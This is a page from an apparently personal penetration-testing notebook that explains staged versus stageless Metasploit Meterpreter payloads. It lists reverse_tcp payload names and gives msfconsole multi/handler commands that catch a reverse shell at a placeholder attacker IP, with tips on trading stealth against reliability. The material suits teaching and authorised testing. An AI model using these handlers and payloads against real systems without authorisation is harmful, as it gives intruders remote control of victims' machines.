

repository: RayenManai/MyHackBook · page: Fundamentals/payloads.html · generator: sphinx

# Payloads

## Staged (multi-stage) payloads

Staged payloads use a small initial stager that connects back to the attacker and then downloads/extracts the larger payload (the "stage"). This keeps the initial network footprint small and is the default for many Meterpreter payloads.

- Example Metasploit payloads:

```
windows/meterpreter/reverse_tcp
linux/x86/meterpreter/reverse_tcp
```

- Example handler (attacker):

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT 4444
run
```

## Stageless (non-staged) payloads

Stageless (non-staged) payloads contain the full payload in a single stage. They avoid a second-stage download, which can be more reliable across unstable networks and sometimes simpler for bypassing certain network restrictions.

- Example Metasploit payloads:

```
windows/meterpreter_reverse_tcp
linux/x86/meterpreter_reverse_tcp
```

- Example handler (attacker) — same setup but with the stageless payload:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_tcp
set LHOST <attacker-ip>
set LPORT 4444
run
```

## When to use which

Choosing staged vs stageless depends on network constraints, detection risk and reliability. Staged payloads have a small initial stager (smaller network footprint, can deliver larger payloads) but require a successful second-stage fetch which can be blocked by egress filters or unstable networks. Stageless payloads contain the full payload up front (more reliable when stage downloads fail or are blocked) but are larger and sometimes easier for network/AV controls to detect or truncate. In practice, try the staged option when outbound connectivity is likely and you want a smaller initial footprint; if the stage download fails or the environment blocks egress, switch to a stageless payload. For thorough testing, try both approaches and pick the one that balances stealth and reliability for the target.
